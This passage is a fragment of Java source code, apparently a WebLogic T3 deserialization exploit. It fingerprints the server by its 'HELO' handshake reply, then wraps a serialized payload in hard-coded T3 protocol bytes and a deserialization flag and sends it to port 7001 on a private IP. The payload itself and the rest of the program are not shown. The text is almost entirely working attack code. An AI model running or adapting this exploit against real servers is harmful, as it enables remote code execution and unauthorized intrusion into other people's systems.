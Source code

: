 ```java
        outputStream.write(handshake.getBytes(StandardCharsets.UTF_8));
        outputStream.flush();
        
        // Read response from the server
        byte[] response = new byte[1024];
        int len = inputStream.read(response);
        String responseData = new String(response, 0, len, StandardCharsets.UTF_8);

        // Check if it's WebLogic server
        Pattern pattern = Pattern.compile("HELO");
        Matcher matcher = pattern.matcher(responseData);
        if (matcher.find()) {
            System.out.println("WebLogic");
        } else {
            System.out.println("Not WebLogic");
            socket.close();
            return;
        }
        
        // Construct the full payload with headers and exploit data
        byte[] header = hexStringToByteArray("00000000");
        byte[] t3Header = hexStringToByteArray("016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006");
        byte[] desFlag = hexStringToByteArray("fe010000");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(t3Header);
        byteArrayOutputStream.write(desFlag);
        byteArrayOutputStream.write(payload);

        byte[] fullPayload = byteArrayOutputStream.toByteArray();

        // Set the length in the correct place
        byte[] lengthPrefix = new byte[4];
        for (int i = 0; i < 4; i++) {
            lengthPrefix[i] = (byte) ((fullPayload.length >> (8 * (3 - i))) & 0xFF);
        }
        
        // Send the payload
        outputStream.write(lengthPrefix);
        outputStream.write(fullPayload, 4, fullPayload.length - 4);
        outputStream.flush();
        
        socket.close();
    }

    // Helper function to convert hex string to byte array
    private static byte[] hexStringToByteArray(String s) {
        int len = s.length();
        byte[] data = new byte[len / 2];
        for (int i = 0; i < len; i += 2) {
            data[i / 2] = (byte) ((Character.digit(s.charAt(i), 16) << 4)
                                + Character.digit(s.charAt(i + 1), 16));
        }
        return data;
    }

    public static void main(String[] args) {
        String ip = "192.168.152.128";
        int port = 7001;

```